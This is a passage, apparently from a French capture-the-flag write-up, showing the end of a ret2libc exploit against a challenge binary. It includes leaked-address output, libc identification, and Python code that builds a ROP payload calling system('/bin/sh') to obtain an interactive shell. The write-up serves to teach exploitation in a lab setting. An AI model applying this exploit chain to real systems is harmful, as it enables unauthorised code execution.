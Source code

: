 Résultat :

```bash
root@DESKTOP-HNQJECB: /c/vacation
➜   python3 vacation2.py

    Address:
[+] Ret2start   : 0x401176
[+] Puts        : 0x401064
[+] Fgets       : 0x401084
[+] Setbuf      : 0x401074
[+] Pop_rdi     : 0x401243
[+] Ret         : 0x40101a

    Leaked with Rop:
[+] Puts  : 7f1d26c31de0
[+] Fgets : 7f1d26c301b0
```

Puis on va se rendre sur [libc.rip](https://libc.rip/) pour identifier la bonne libc utilisé à distance :
On trouve : **[libc6_2.31-0ubuntu9.7_amd64.so](./files/libc6_2.31-0ubuntu9.7_amd64.so)**

### Fin de l'exploitation grâce à un ret2libc.

Maintenant que nous avons la bonne libc , nous pouvons la charger dans notre programme et nous pouvons resituer l'address de celle-ci grâce au leak du premier ropchain:

```python
libc = ELF('libc6_2.31-0ubuntu9.7_amd64.so')
libc.address = int('0x'+Leaked_puts,16) - libc.symbols['puts']
```

On peut vérifier que l'adresse est valide car elle se termine par ``000`` qui indique que l'adresse est valide !
Nous touchons au but :)

On peut donc aller chercher les adresses de
- "/bin/sh"
- la fonction ``system``

```python
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym["system"]

print('\n    Address:')
print('[+] System  : %s'%hex(system))
print('[+] bin_sh  : %s'%hex(bin_sh))
print('[+] Pop_rdi : %s'%hex(pop_rdi))
```

Enfin , on crée notre payload final pour appeler **/bin/sh** dans la fonction system et ainsi avoir un shell intéractif !

```python
print('[+] Getting Shell ...\n')

rop = 24*b'A' + p64(ret) +p64(pop_rdi) + p64(bin_sh) + p64(system) + p64(ret_main_addr)
proc.sendline(rop)

proc.interactive()
```
